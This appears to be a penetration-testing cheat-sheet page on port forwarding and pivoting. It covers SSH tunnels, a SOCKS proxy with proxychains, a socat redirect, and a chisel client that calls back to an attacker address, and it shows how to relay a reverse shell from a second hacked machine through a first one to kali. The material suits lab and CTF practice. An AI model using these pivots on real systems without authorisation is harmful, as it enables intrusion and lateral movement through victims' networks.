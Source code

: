 # Port Forwarding

## SSH

### Locally

Example: we want to connect to the port 1025 on the remote machine "delivery" on our port 1337.

```
ssh -L 1337:localhost:1025 maildeliverer@delivery
```

Example: we want to access the port 1025 on the remote machine "pivotable" through the machine "delivery" on our machine on port 1337.&#x20;

```
ssh -L 1337:pivotable:1025 maildeliverer@delivery
```

### Remotely

Example: SSH to my kali, opens up port 1025 on the victim's localhost, to be accessible at port 1337 on kali.

```
ssh -R 1337:localhost:1025 kali@mykali
```

### Dynamically

This creates a SOCKS proxy that allows you to reach IP addresses that are in the same network as a box you can SSH to.&#x20;

Run the following commands on the box you want to proxy through:

```
# in an ssh session:
~C
-D 1080
```

Then, on your machine, make sure `/etc/proxychains.conf` has:

```
socks5 127.0.0.1 1080
```

Then you can use the `proxychains` command in front of your other commands to proxy through the machine. For example, this command curls the IP address 192.168.122.4 through the proxied machine:

```
proxychains curl 192.168.122.4
```

To use that with burp, go to "User Options", select "use socks proxy", and configure it to go through localhost on port 1080.

### Two Hops

This section explains how to forward a reverse shell gained in a second hacked box through a first hacked box to kali.

Run the following commands on the first hacked machine:

```
# in an ssh session:
~C

# first part is for the hacked machine
# second part is for kali
-R 127.0.0.1:9001:127.0.0.1:9001 
```

**Question:** Why can't we just specify the private IP address in the above command instead of 127.0.0.1? In that case, we wouldn't have to redirect with socat later on.

You can confirm whether it worked by running:

```
netstat -alnp | grep 9001
```

This will send everything from the hacked machine's localhost:9001 to kali:9001. However, **it will not send anything from the hacked machine's private IP address** to kali.&#x20;

You can use socat to redirect traffic from the second hacked machine's private IP address to its localhost, so that the traffic could be forwarded to kali.&#x20;

In this example, the first hacked box's IP address is 192.168.122.1:

```
socat TCP-LISTEN:9001,bind=192.168.122.1,fork,reuseaddr TCP:localhost:9001 &
```

After you have set that up, you can run a reverse shell on the second hacked machine and have it connect to port 9001 on the first hacked machine. That connection will be forwarded to port 9001 on your kali. **Don't forget to run a listener on port 9001** in kali to catch the connection.

## Chisel

This will allow you to access port 4505 on the target's localhost from port 4505 on your own machine.

```
# Run on kali
./chisel_1.7.6_linux_amd64 server -p 12312 --reverse

# Run on target machine
./chisel_1.7.6_linux_amd64 client YOUR_IP_ADDRESS:12312 R:4505:127.0.0.1:4505
```

## Socat

You can use socat for redirectiions.

For example, this command redirects port 9001 on the IP address 192.168.122.1 to localhost:9001 **on that same machine**:

```
socat TCP-LISTEN:9001,bind=192.168.122.1,fork,reuseaddr TCP:localhost:9001 &
```
